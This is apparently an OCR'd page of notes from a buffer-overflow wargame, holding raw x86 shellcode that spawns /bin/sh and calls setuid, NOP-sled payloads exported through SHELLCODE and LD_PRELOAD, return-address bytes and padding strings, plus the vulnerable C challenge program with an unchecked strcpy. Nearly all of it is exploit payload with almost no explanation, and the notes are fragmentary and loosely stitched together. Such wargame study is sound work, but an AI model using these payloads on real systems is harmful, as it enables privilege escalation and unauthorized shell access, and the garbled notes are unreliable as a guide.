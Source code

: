 \xcb\x09\x03\x40

/bin/sh
 0xbffffdc0
\xc0\xfd\xff\xbf

tmp/p8
AAAA AAAA AAAA AA

\x66\xb8\xf6\x01\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80
0x01f6
6

0xbffffa68
\x68\xfa\xff\xbf
export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

str : 23 => \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

buf addr : 0xbffffa84 -> 0xbffffae8 -> \xe8\xfa\xff\xbf

SETUID + /BIN/SH
\x66\xb8\xf6\x01\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80


0xbfffd3b8



`python -c 'print "\x90" * 44 + "BB" +"\xfe\xbf"+"\x90" * 10000'`

export LD_PRELOAD=`python -c 'print "/home/skeleton/"+ "\x90" *100 +"\x31\xc0\x50\xb8\x2e\x2e\x73\x68\x66\x05\x01\x01\x50\xb8\x2e\x62\x69\x6e\x04\x01\x50\x89\xe3\x31\xc0\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'`

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dumpcode.h>

main(int argc, char *argv[])
{
        char buffer[40];
        char *addr;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // check address
        addr = (char *)&strcpy;
        if(memcmp(argv[1]+44, &addr, 4) != 0){
                printf("You must fall in love with strcpy()\n");
                exit(0);
        }

        // overflow!
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // dangerous waterfall
        memset(buffer+40+8, 'A', 4);
}

